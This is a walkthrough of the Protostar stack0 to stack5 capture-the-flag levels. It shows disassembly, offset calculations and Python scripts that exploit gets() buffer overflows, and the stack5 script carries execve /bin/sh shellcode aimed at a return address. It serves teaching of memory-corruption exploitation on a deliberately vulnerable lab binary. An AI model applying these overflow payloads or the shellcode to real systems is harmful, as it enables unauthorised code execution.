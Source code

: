 # Protostar

## Stack0

The source code shows that there is a significant stack overflow. When the program recvievs input from the user, gets() will not check the length of the buffer.
The mission is that overwrite the variable named modified, the address of which is just 64bytes behind the address of the variable named buffer.

```ASM
 080483f4 <main>:
 80483f4:       55                      push   %ebp
 80483f5:       89 e5                   mov    %esp,%ebp
 80483f7:       83 e4 f0                and    $0xfffffff0,%esp
 80483fa:       83 ec 60                sub    $0x60,%esp
 80483fd:       c7 44 24 5c 00 00 00    movl   $0x0,0x5c(%esp)
 8048404:       00
 8048405:       8d 44 24 1c             lea    0x1c(%esp),%eax
 8048409:       89 04 24                mov    %eax,(%esp)
 804840c:       e8 fb fe ff ff          call   804830c <gets@plt>
 8048411:       8b 44 24 5c             mov    0x5c(%esp),%eax
 8048415:       85 c0                   test   %eax,%eax
 8048417:       74 0e                   je     8048427 <main+0x33>
 8048419:       c7 04 24 00 85 04 08    movl   $0x8048500,(%esp)
 8048420:       e8 07 ff ff ff          call   804832c <puts@plt>
 8048425:       eb 0c                   jmp    8048433 <main+0x3f>
 8048427:       c7 04 24 29 85 04 08    movl   $0x8048529,(%esp)
 804842e:       e8 f9 fe ff ff          call   804832c <puts@plt>
 8048433:       c9                      leave
 8048434:       c3                      ret

```

We could calculate the offset will be 0x40 = 64, since the 
&buffer = 0x1c(%esp);
&modified = 0x5c(%esp);

The exploit python code is 

```python
#!/usr/bin/env python

SH='A'*64+'XXXX'
print(SH)
```

## Stack1

The exploit python code could be slightly modified for stack1

```python
#!/usr/bin/env python

SH='A'*64+'dcba'
print(SH)
```

## Stack2

The exploit python code is:

```python
#!/usr/bin/env python
import sys

SH='A'*64+'\x0a\x0d\x0a\x0d'
sys.stdout.write(SH)
```

And the stack overflow could be constructed as :

```shell
 env GREENIE="`python hack.py`" /opt/protostar/bin/stack2
```

## Stack3

The disasmble code is :

```asm
08048438 <main>:
 8048438:       55                      push   %ebp
 8048439:       89 e5                   mov    %esp,%ebp
 804843b:       83 e4 f0                and    $0xfffffff0,%esp
 804843e:       83 ec 60                sub    $0x60,%esp
 8048441:       c7 44 24 5c 00 00 00    movl   $0x0,0x5c(%esp)
 8048448:       00
 8048449:       8d 44 24 1c             lea    0x1c(%esp),%eax
 804844d:       89 04 24                mov    %eax,(%esp)
 8048450:       e8 db fe ff ff          call   8048330 <gets@plt>
 8048455:       83 7c 24 5c 00          cmpl   $0x0,0x5c(%esp)
 804845a:       74 1b                   je     8048477 <main+0x3f>
 804845c:       b8 60 85 04 08          mov    $0x8048560,%eax
 8048461:       8b 54 24 5c             mov    0x5c(%esp),%edx
 8048465:       89 54 24 04             mov    %edx,0x4(%esp)
 8048469:       89 04 24                mov    %eax,(%esp)
 804846c:       e8 df fe ff ff          call   8048350 <printf@plt>
 8048471:       8b 44 24 5c             mov    0x5c(%esp),%eax
 8048475:       ff d0                   call   *%eax
 8048477:       c9                      leave
 8048478:       c3                      ret
```
I plan to overwrite the content of the pointor named fp with the value of win(), the address of which is 0x08048424.

The following python code will exploit the program at the level.

```python
#!/usr/bin/env python
import sys

SH='A'*64+'\x24\x84\x04\x08'
sys.stdout.write(SH)
```

## stack4

I used `strace -i` to find out which offset is the return address, then I constructed the attack vector.

```python
#!/usr/bin/env python
import sys
padding='BBBBCCCCDDDD'
ret_addr='\xf4\x83\x04\x08'

SH='A'*64+padding+ret_addr

sys.stdout.write(SH)
```

## stack5

```python
#!/usr/bin/env python

import sys

SHELL_CODE = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
NOP= "\x90"

ret_addr = "\x80\xf7\xff\xbf" # 0xbffff780
old_ebp = "\x48\xf8\xff\xbf" #0xbffff848

buff_size = 64

# NOP shell_code NOP old_ebp ret_addr
SH = NOP*4 + SHELL_CODE
SH = SH + NOP*(buff_size-len(SH))
# and    $0xfffffff0,%esp
SH = SH + NOP*8 + old_ebp + ret_addr

sys.stdout.write(SH)
sys.stdout.flush()

```
